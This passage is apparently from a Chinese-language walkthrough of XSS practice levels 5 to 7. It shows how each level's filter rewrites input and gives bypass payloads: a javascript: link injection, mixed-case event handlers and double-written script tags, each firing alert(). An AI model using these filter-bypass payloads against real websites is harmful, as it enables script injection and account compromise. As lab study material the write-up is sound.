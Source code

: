 上测试Payload，返回结果如下：

```html
<input name=keyword  value="<scr_ipt>alert('xss');</script>">
```

说明把`script`关键字换成了`scr_ipt`，尝试构造事件型。

注入：

```html
" onfocus="alert()"
```

返回：

```html
<input name=keyword  value="" o_nfocus="alert()"">
```

好像是把`on`也给换成了`o_n`，测试一下，直接发送`on`，返回：

```html
<input name=keyword  value="o_n">
```

确实是把`on`给换成了`o_n`，注意到第一次测试时没有对大小于符号进行过滤，于是构造超链接元素中的href属性可调用JS：

```html
"><a href="javascript:alert()
```

## Level 6

测试payload返回如下：

```html
<input name=keyword  value="<scr_ipt>alert('xss');</script>">
```

再次测试，`on`和`href`都被换掉了。

好像没办法了，但是测试可以发现，大小写混写就绕过了。

```html
" OnFocus="alert()
```

## Level 7

测试Payload返回如下：

```html
<input name=keyword  value="<>alert('xss');</>">
```

把`script`换空了，双写绕一下：

```html
<scrscriptipt>alert('xss');</scrscriptipt>
```
